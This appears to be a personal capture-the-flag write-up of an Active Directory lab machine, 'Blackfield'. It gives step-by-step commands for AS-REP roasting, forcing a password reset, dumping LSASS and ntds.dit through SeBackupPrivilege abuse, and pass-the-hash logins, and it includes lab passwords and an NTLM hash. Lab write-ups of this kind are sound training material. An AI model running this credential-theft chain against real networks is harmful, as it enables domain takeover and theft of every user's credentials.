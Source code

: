 ![[Pasted image 20250422184620.png]]
then with [[nmap]] report we see [[port 445]] open, that is for [[Server message Block (SMB)]] protocol, let's try list shared resources with [[smbmap]]
![[Pasted image 20250422184957.png]]
We find some folders. With `smbmap` we can read directly a folder, let's try see inside `profiles$`

```bash
smbmap -H 10.10.10.192 -u entr0phy4 -r profiles$
```
![[Pasted image 20250422185228.png]]
and we got a list of possible users valid, lets play with [[awk]] to get only the name of the user
so have a list of possible users we can use a tools as [[kerbrute]] to try [[Brute force]] attack.
first, we need the domain of the [[Domain Controller (DC)]], user [[netexec]] can visualize that

![[Pasted image 20250422185936.png]]

then:
```bash
kerbrute userenum --dc 10.10.10.192 -d blackfield.local ./data/users
```
and we get:
```bash
[+] VALID USERNAME:	audit2020@blackfield.local
[+] VALID USERNAME:	support@blackfield.local
[+] VALID USERNAME:	svc_backup@blackfield.local
```
this valid users. Now, having a valid users list we can try [[AS-REP Roasting]] attack using [[GetNPUsers.py]] function of [[Impacket]].
```bash
GetNPUsers.py blackfield.local/ -no-pass -usersfile ./data/users:valid
```
![[Pasted image 20250422191921.png]]
we got a hash of user `support`, lets try with [[JohnTheRipper]] crack that hash.
![[Pasted image 20250422191959.png]]
and we have the first credentials. `#00^BlackKnight`
with [[netexec]] we can validate that credentials.
![[Pasted image 20250422192632.png]]
and are corrects.
we can user [[ldapdomaindump]] to try get information by [[LDAP]].

```bash
ldapdomaindump -u 'blackfield.local\support' -p '#00^BlackKnight' 10.10.10.192
```

now, we can user [[Neo4j]] and [[bloodhound]] to try to enumerate more things.

first is start `neo4j` 
```bash
sudo neo4j console 
```

second step is use [[bloodhound-python]] tool to try enumerate the domain in remote with credential valid we have.
```bash
bloodhound-python -c all -u 'support' -p '#00^BlackKnight' -ns 10.10.10.192 -d blackfield.local 
```

now, with all files of output by `bloodhound-python` upload to [[bloodhound]]
In `INBOUND OBJECT CONTROL`  we see this:
![[Pasted image 20250422204817.png]]
user `support` can force change password to user `audit20202`

with [[net]] via [[RPC]] we can do that.
```bash
net rpc password audit2020 -U 'support' -S 10.10.10.192
```

![[Pasted image 20250422205238.png]]
and works, u can validate that with [[netexec]]
![[Pasted image 20250422205258.png]]

try list again shared resources with [[smbmap]] we get access to folder `foresic`

![[Pasted image 20250422205614.png]]
and in memory_analysis:
![[Pasted image 20250422205814.png]]
we focus our attention to `lsass.zip`
download the zip file:
```bash
smbmap -H 10.10.10.192 -u 'audit2020' -p 'test123!@#' --download forensic/memory_analysis/lsass.zip
```
and check it's a [[Mini DuMP]] file of [[LSASS]]
let's use [[pypykatz]] the try visualize privilege information.
```bash
pypykatz lsa minidump lsass.DMP
```

... **bug pypykatz** ...

but with [[pypykatz]] you should can get the [[NTML]] of `svc-backup` user and user [[evil-winrm]] to connect

![[Pasted image 20250422210314.png]]
checking we found the users of [[Remote Management Users]] group
![[Pasted image 20250422201549.png]]

```bash
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```

once inside, enumerate our privileges
```bash
whoami /priv
```

![[Pasted image 20250422230001.png]]
So let's try abuse [[SeBackupPrivilege]] using [[diskshadow.exe]]
first we need create a new alias to can have access to [[ntds.dit]]

```powershell
set context persistent nowriters 
add volume c: alias test
create 
expose %test% z: 
```
with this script on the target machine we can use [[diskshadow.exe]]
![[Pasted image 20250422232849.png]]
and works.
Now we can user a new logic volume created `z:\` to get [[ntds.dit]]
using [[robocopy]]
```powershell
robocopy /b z:\Windows\NTDS\ . ntds.dit
```

![[Pasted image 20250422233654.png]]
we have a copy, just need download it to your machine.
```powershell
download ntds.dit
```
you also need create a copy of system with [[reg]]
```powershell
reg save HKLM\system system
```
and download it, having this and the ntds.dit file on you machine can use [[secretdump.py]] of [[Impacket]] to dump hashes of all users.
```bash
secretsdump.py -system ./content/system -ntds ./content/ntds.dit LOCAL

```
![[Pasted image 20250423000507.png]]
and with that hast we can use [[evil-winrm]] again to enter as `Administrator` user
![[Pasted image 20250423000630.png]]